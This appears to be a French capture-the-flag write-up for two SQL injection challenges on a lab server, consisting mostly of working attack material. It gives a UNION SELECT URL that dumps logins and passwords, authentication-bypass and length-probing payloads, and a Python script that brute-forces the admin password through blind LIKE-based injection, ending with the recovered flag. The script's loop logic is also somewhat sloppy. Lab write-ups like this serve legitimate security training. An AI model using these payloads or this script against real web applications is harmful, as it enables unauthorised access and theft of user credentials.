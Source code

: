 ## CHAL1
1. SqlMap pour voir le nom des tables.
2. Taper cette requette:

* ```http://10.33.3.14:8081/?article=%27UNION%20Select%20null,login,password%20from%20users;```

## CHAL2
1. ```' or 1=1```
2. On essayer de trouver la longueur du login:
* ```' or 1=1 AND length(login) < 6 --```

3. J'ai appris que le Login faisais 5 characteres.
4. Le login est `admin`
5. On va essayer de trouver la longueur du password:
* ```' or 1=1 AND length(password) < 56 --```
6. Réalisation d'un script pour brut force:
```
import requests
import hashlib
import string
from itertools import chain, product


headers = {'User-Agent': 'Mozilla/5.0'}
url = 'http://10.33.3.14:8082/'

cond = "Error Wrong credentials"
compteur = 0
i = 0
mdp = ""
tab = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789-_'
test =""

for i in range(55):
    data = f"admin' and password LIKE 'b%';--"
    payload = {'login':data, 'password': data}
    session = requests.Session()
    r = session.post(url,headers=headers,data=payload)
    while cond in r.text:
        test = tab[compteur]
        data2 = f"admin' and password LIKE '{mdp}{test}%';--"
        payload = {'login':data2, 'password': data2}
        session = requests.Session()
        r = session.post(url,headers=headers,data=payload)
        compteur+=1
        print(data2)
        
        
    if "Felicitation le mot de passe de l'admin est le flag" in r.text:
        mdp += test
        i+=1
        compteur = 0
        
print(mdp)
```
7. Password = ```_fl4g_ocnc2smpstbzddxoqgim1ivweqyto5-uvbkcmuqkgrm9bockz ```
